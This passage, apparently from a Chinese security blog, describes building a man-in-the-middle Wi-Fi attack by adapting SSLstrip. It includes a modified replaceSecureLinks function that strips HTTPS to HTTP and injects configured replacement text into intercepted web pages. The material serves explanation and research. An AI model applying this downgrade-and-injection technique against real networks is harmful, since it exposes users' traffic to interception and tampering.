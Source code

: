1、 在传输层使用 transparent proxy 做 MITM 数据包截取/修改
2、 在应用层使用 HTTP 双向通信模型做 MITM 内容截取/修改

刚开始的思路是做一个`transparent proxy`，但是发现由于数据包分段以及 gzip 格式传输，导致传输层做 HTTP 内容注入比较复杂，而且其他协议的数据包又不具备通用性的 MITM 介入方式，因此综合看来还是做应用层 HTTP 协议的双向通信模型比较简便。

而我们知道，SSlstrip 就是基于这种应用层双向通信模型构建的，我们可以借用 SSlstrip 的代码进行改造

```
ServerConnection.py

    def replaceSecureLinks(self, data):
        iterator = re.finditer(ServerConnection.urlExpression, data)

        for match in iterator:
            url = match.group()

            logging.debug("Found secure reference: " + url)

            url = url.replace('https://', 'http://', 1)
            url = url.replace('&amp;', '&')
            self.urlMonitor.addSecureLink(self.client.getClientIP(), url)

        data = re.sub(ServerConnection.urlExplicitPort, r'http://\1/', data)

        #在这里对 data 进行处理，即可完成 MITM 介入
        #这个函数本来的功能是替换 https 为 http 普通链接
        #在此之前已经完成了对 gzip 的解压，以及建立了双向连接

        replaceconfig=os.popen('cat /etc/wooyunwifi/replace.conf').readlines()
        data = data.replace(replaceconfig[0].strip(),replaceconfig[1].strip())

        #其实就两句话，看上去很简单，哈

        return re.sub(ServerConnection.urlType, 'http://', data) 
```

再做个 WEB 页面 至此，MITM 设计完毕

感想：写一句代码只需要一分钟，但知道这行代码写在哪需要一天

![enter image description here](img/img10_u67_png.jpg)